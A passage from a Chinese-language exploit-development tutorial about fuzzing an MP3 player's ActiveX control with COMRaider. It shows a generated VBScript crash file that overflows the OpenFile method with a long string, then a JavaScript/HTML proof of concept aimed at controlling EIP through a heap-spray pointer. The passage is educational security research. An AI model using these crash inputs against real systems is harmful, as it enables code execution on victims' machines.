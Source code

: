 注册ocx控件，你能看到一个弹框说文件已经成功注册。接着下载[ COMRaider](http://bbs.pediy.com/thread-207158.htm)。COMRaider是一个很好用的ActiveX Fuzzer工具。用这个工具可以轻易得到POC。看看原始的[exploit](http://bbs.pediy.com/thread-207158.htm)可以知道崩溃出现在OpenFile函数。如果我们只Fuzzing这个函数会得到14个异常例子。我没有花时间测试所有的文件，但我怀疑如果你测试完所有的文件会发现大量的可利用的崩溃！<br>

[![](./img/85586/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013ccc3b7e492e39b9.png)

COMRaider<br>

[![](./img/85586/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01fb33f70754473694.png)

OpenFile<br>

[![](./img/85586/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0142818fe000af5488.png)

Poor Programming<br>

如果我们看下面这个造成崩溃的文件，可以看到它非常简单，类似于exploit-db那个。<br>

```
&lt;?XML version='1.0' standalone='yes' ?&gt;
&lt;package&gt;&lt;job id='DoneInVBS' debug='false' error='true'&gt;
&lt;object classid='clsid:3C88113F-8CEC-48DC-A0E5-983EF9458687' id='target' /&gt;
&lt;script language='vbscript'&gt;
  
'File Generated by COMRaider v0.0.133 - http://labs.idefense.com
  
'Wscript.echo typename(target)
  
'for debugging/custom prolog
targetFile = "C:Documents and SettingsAdministratorDesktopRSP MP3 Playerrspmp3ocx320sw.ocx"
prototype  = "Function OpenFile ( ByVal Inputfile As String )"
memberName = "OpenFile"
progid     = "RSPMP3_320.RSPMP3"
argCount   = 1
  
arg1=String(1044, "A")
target.OpenFile arg1 
  
&lt;/script&gt;&lt;/job&gt;&lt;/package&gt;
```

我花费了一点时间把它从vb转为js. 我们可以控制EIP或SEH，但这不是我们关心的。我们想要从堆喷射中选一个可预测的指针覆写EIP。<br>





```
&lt;html&gt;
  &lt;head&gt;
    &lt;object id="Oops" classid='clsid:3C88113F-8CEC-48DC-A0E5-983EF9458687'&gt;&lt;/object&gt;
  &lt;/head&gt;
  &lt;body&gt;
  &lt;script&gt;
      
    pointer='';
    for (counter=0; counter&lt;=1000; counter++) pointer+=unescape("%06");
    Oops.OpenFile(pointer);
      
  &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```
